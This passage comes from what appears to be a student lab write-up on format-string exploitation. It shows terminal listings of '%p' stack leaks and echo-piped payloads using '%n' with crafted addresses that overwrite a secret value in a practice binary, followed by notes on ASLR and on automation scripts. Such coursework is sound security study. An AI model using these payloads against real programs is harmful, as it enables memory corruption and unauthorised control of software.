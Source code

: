 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Stack inspection to find the start of user\_input},
label={lst:l1_t2_insp},
language=,
frame=single]
...
Please enter a string
RIPPAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
RIPPAAAA,0xbffff678,0x8,0xb7eb8309,0xbffff69f,0xbffff69e,
(nil),0xbffff784,0xbffff724,0x804b020,0x50504952,0x41414141,
0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c702
...
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Little-endian conversion and reading one byte},
label={lst:l1_t2_le_pb},
language=,
frame=single]
echo -e '\x24\xb0\x04\x08<%10$.1s>' | ./formatstr-no-int-root
...
$<U>
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Setting secret{$[1]$} to 0x77},
label={lst:l1_t2_le_pcd},
language=,
frame=single]
echo -e '\x24\xb0\x04\x08%119.0s%10$n' | ./formatstr-no-int-root
...
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x77
\end{lstlisting}
\end{minipage}

\subsection{Task 3}
\subsubsection{Part (a) Redo Task 2 with ASLR turned on}
When address randomisation is turned on, we observe that bytes such as tab (\emph{0x09}) and spaces (\emph{0x20}), amongst a number of others, are now becoming part of the address of secret[1]. These bytes cause \emph{scanf()} to break the input, preventing the payloads from working for certain addresses.

To circumvent this, we need a new method of setting an arbitrary address that does not involve escaped bytes. One possibility is the "space-generator" payload, "\%$<$val$>$.0s", followed by a \emph{\%n}. Unfortunately, this took a long time as the terminal kept on printing spaces to the size of the target address (hundreds of millions). We have more ideas in mind but due to time constraints, these have not been implemented.

\subsubsection{Part (b) Automate Task 2 (b)}
As mentioned earlier, this document comes with two Python scrtips: \emph{cwk1\_p1.py} and \emph{cwk1\_p2.py}. Each of them automatically execute all of the exploits in Task 1 and Task 2 respectively. The code uses \emph{pexpect}, and parses the addresses printed by \emph{formatstring}.